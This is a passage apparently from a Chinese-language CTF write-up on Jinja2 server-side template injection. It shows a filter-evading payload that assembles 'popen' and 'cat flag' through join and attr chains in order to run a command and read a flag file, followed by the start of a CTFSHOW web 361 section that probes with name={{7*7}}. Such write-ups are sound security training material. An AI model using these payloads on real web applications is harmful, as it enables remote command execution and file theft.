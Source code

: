 ```bash
{%set g=dict(pop=a,en=b)|join %} 
{%set h=(()|select|string|list)|attr(po)(one)%}
{%set flag=(dict(cat=abc)|join,h,dict(flag=b)|join)|join%}
{%set re=dict(read=a)|join%}
{{()|attr(a)|attr(b)|attr(c)()|attr(d)(hundred)|attr(e)|attr(f)|attr(d)(g)(flag)|attr(re)()}}
```

[![在这里插入图片描述](assets/1698900310-e8a1e2e7245064531a3374c4ddcda3ae.png)](https://storage.tttang.com/media/attachment/2022/08/14/2a0df7f0-de13-4cf9-bf2b-c8c28334b00c.png)

## [CTFSHOW](#toc_ctfshow)

### [web 361](#toc_web-361)

参数为 name，尝试注入

```bash
name={{7*7}}
```
